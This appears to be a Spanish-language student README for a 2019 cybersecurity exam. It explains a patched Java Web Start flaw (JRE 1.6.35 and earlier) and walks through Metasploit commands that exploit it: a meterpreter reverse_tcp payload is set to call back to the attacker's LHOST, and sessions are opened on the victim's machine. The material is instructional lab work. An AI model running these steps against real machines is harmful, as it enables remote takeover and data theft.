 # ParcialCiber
Parcial ciberseguridad 2019

exploit/windows/browser/java_ws_double_quote
==============================================

Explicación vulnerabilidad:
----------------------------

Esta vulnerabilidad consiste en explotar los parametros
initial-heap-size y max-heap-size que se encuentran en el
archivo JNPL que utiliza el Java Web Start para descargar, instalar y
ejecutar cualquier aplicación, estos parametros no se encuentran
adecuadamente establecidos entonces se les puede añadir un
archivo jvm.dll que se cargará cuando se ejecute el javaw.exe
en Windows y podra obtener información de la maquina atacada
remotamente dada desde el mismo navegador de la victima.

Esta vulnerabilidad se soluciono en 2012 y afecta a las versiones
de Java Run Enviroment menores o igual a la 1.6.35.

Sistema operativo:
-------------------

Este ataque se puede hacer desde una maquina Kali Linux y esta
dirigido al sistema operativo Windows (Victima).

El software para hacer el ataque (explotar las vulnerabilidades)
que utilice es Metasploit.

Instructivo:
-------------

Se ejecutan los siguientes comandos dentro del Metasploit:

use exploit/windows/browser/java_ws_double_quote (para usar
este modulo de vulnerabilidad ya encontrada)

ifconfig (para saber nuestra ip)

set SRVHOST 10.191.8.4 (para establecer la dirección ip del servidor,
 en este caso servidor local a utilizar para el ataque)

set PAYLOAD windows/meterpreter/reverse_tcp (subimos el código
que se activará para aprovechar la vulnerabilidad)

set LHOST 10.191.8.4  (para establecer donde recibiremos los datos
del pc atacado)

exploit (ejecutar el exploit, vulnerabilidad)

Luego nos mostrará un using URL que es la ip que debemos compartir
a la victima para hacer el ataque.

sessions -l (lista las sesiones activas de las victimas)

sessions -i 1 (seleccionar sesion de la maquina atacada)

sysinfo (visualizar informacion de la maquina atacada)

